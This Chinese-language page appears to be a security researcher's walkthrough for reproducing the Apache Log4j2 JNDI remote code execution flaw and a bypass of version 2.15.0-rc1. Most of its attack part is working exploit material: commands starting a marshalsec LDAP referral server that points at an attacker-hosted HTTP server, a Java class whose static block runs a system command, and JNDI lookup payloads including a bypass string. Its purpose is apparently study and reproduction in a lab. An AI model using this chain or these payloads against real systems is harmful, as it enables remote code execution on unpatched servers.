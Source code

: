```yaml
---
layout: about
category: about
wrench: 2021-12-28
toc: true
Researchname: Apache Log4J RCE复现历程
desc: 「Apache Log4j2」
author: Bin4xin
permalink: /about/Apache-Log4j-RCE-WalkThrough/
---
```


## [Apache Log4j-v2.x-x RCE](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j)

> 影响版本：
>
> Apache Log4j 2.x <= 2.15.0-rc1

### Apache Log4j 2.x < 2.15.0-rc1 RCE

#### 环境准备

- 标题仓库中demo.jar(更接近实际渗透环境)
- 或者[<del>idea代码直接调试</del>](https://github.com/tangxiaofeng7/apache-log4j-poc/)
  - *Tips:2021-12-21更新*：
  - 原仓库作者已删除，我这里仓库重新上传了一份，[apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/tree/master/CoVV/ApacheLog4j/apache-log4j-poc)

```
[apache-log4j-poc]-git:(main)>git remote -v
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (fetch)
origin	https://github.com/tangxiaofeng7/apache-log4j-poc.git (push)
```

> 值得注意的是：
> 
> @apache-log4j-poc仓库中的截图poc代码为缺省`127.0.0.1`，我本地并未成功，需调整为网卡监听局域网地址如`192.168.x.x`

- JDK版本11以下，我的测试版本如下：

```bash
> java -version
java version "1.8.0_181"
Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)
```

#### 分析环境

把demo.jar拉到jd-gui中反编译：

- `com.example.log4j2_rce.Log4j2RceApplication`代码如下所示：

```java
@PostMapping({"/hello"})
public String hello(String payload) {
    System.setProperty("com.sun.jndi.ldap.object.trustURLCodebase", "true");
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    logger.error("{}", payload);
    logger.info("{}", payload);
    logger.info(payload);
    logger.error(payload);
    return "ok";
}
```

访问路由为hello，post`payload`参数；

#### 尝试

```bash
# 启web
$ java -jar demo.jar
  .   ____          _            __ _ _
 /\\ / ___'_ __ _ _(_)_ __  __ _ \ \ \ \
( ( )\___ | '_ | '_| | '_ \/ _` | \ \ \ \
 \\/  ___)| |_)| | | | | || (_| |  ) ) ) )
  '  |____| .__|_| |_|_| |_\__, | / / / /
 =========|_|==============|___/=/_/_/_/
 :: Spring Boot ::        (v2.1.3.RELEASE)
 ···
```

直接访问加上payload进行攻击：

```bash
# 启LDAP服务：
$ java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.3.64/#dnslog"

# 启http：
$ cat dnslog.java
import java.lang.Runtime;
import java.lang.Process;

public class dnslog {
	static {

		try{
	 	Runtime rt = Runtime.getRuntime();
	 	String[] commands = {"open","/System/Applications/Calculator.app"};
	 	Process pc = rt.exec(commands);
	 	pc.waitFor();
	 	}catch (Exception e) {
	 	//no
		}

	}
}
$ javac dnslog.java
$ python3 -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
```

![log4j_poc_success.png](https://s2.loli.net/2021/12/15/ULolm84r2h5yeJS.png)

### Apache Log4j 2.x >= 2.15.0-rc1 RCE

#### 环境准备

- 快速开始：
- 修改[idea代码直接调试apache-log4j-poc](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/pom.xml)
代码版本为`<version>2.15.0-rc1</version>`

```xml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <!--<version>2.14.1</version>-->
    <version>2.15.0-rc1</version>
</dependency>
    <!-- https://mvnrepository.com/artifact/org.apache.logging.log4j/log4j-api -->
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <!--<version>2.14.1</version>-->
    <version>2.15.0-rc1</version>
</dependency>
```

- 我这里是下载好的[Log4j 2.15.0-rc1](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc1)用maven编译好后本地安装到仓库，所以不会报错；
  - [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)

尝试payload运行控制台返回：`23:05:26.715 [main] ERROR log4j - ${jndi:ldap://192.168.3.64:1389/dnslog}`，貌似已经修复了；
但是我们经过手动添加一些选项配置仍然是可以绕过的：

- 添加[src/resources/log4j2.xml](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/ApacheLog4j/apache-log4j-poc/src/resources/log4j2.xml)

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration status="OFF" monitorInterval="30">
    <appenders>
        <console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%m{lookups}%n"/>
        </console>
    </appenders>

    <loggers>
        <root level="all">
            <appender-ref ref="Console"/>
        </root>
    </loggers>
</configuration>
```

- `<PatternLayout pattern="%m{lookups}%n"/>`开启lookup；
- 尝试打印info、debug之类的信息确定配置文件已加载；

```bash
logger.error("hello,error");
logger.info("hello,info");
logger.debug("hello,debug");
#输出如下：
hello,error
hello,info
hello,debug

Process finished with exit code 0
```

#### Bypass攻击

payload为`${jndi:ldap://127.0.0.1#.4ra1n.love:1389/badClassName}`；

具体的绕过以及RCE分析可参考[RCE](https://xz.aliyun.com/t/10689#toc-3)和[分析](https://xz.aliyun.com/t/10689#toc-4)；

![截屏2021-12-28 上午9.44.15.png](https://s2.loli.net/2021/12/28/SdgnR1A93FV5W6l.png)

## 限制

- 目前暂时只知道jdk高版本会报错：`[main] ERROR log4j - Reference Class Name: foo`

这里本人没有测试，可以移步自行分析版本限制[bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)，也欢迎贡献本仓库。

## 代码及参考

- [【安全通报】Apache Log4j2 远程代码执行漏洞](https://nosec.org/home/detail/4917.html)
- [bilibili @GCC酱_0ff1c1a1 Log4j2 漏洞风险演示与个人看法](https://www.bilibili.com/video/BV15Q4y1e7jZ)
- [Apache Log4j2从RCE到RC1绕过](https://xz.aliyun.com/t/10649)
- [浅谈Log4j2之2.15.0版本RCE](https://xz.aliyun.com/t/10689)
- [点击这里了解更多关于MVN安装到本地](https://www.cnblogs.com/duguangming/p/10955124.html)
